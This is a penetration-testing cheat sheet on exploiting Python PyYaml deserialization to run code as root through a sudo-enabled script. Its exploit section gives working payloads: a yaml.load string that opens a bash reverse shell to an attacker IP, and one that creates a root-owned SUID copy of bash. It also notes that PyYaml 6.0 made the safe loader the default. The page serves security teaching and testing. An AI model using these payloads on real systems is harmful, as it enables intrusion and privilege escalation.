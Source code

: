 # Python Deserialization

## Theory 

Python's built-in serialization modules, such as pickle and cPickle, PyYaml, are commonly used for serializing and deserializing data. However, if the deserialization process is not properly secured, it can be exploited by attackers to execute arbitrary code or perform other malicious activities.

## Practice

### PyYaml Deserialization

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `yaml.load()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check if we have control over the input of a vulnerable function
```python
import yaml

filename = "example.yml"
yaml.load()
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:
```python
#Reverse shell
import yaml
from yaml import Loader, UnsafeLoader
yaml.load('!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]',Loader=Loader)

#SUID bit on bash
data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'
yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.unsafe_load(data)
```

{% hint style="danger" %}
Since PyYaml **version 6.0**, the default loader for load has been switched to **`SafeLoader`** mitigating the risks against Remote Code Execution.
The vulnerable sinks are now **`yaml.unsafe_load`** and **`yaml.load(input, Loader=yaml.UnsafeLoader)`**
{% endhint %}
{% endtab %}
{% endtabs %}


## References

{% embed url="https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/Python/" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}
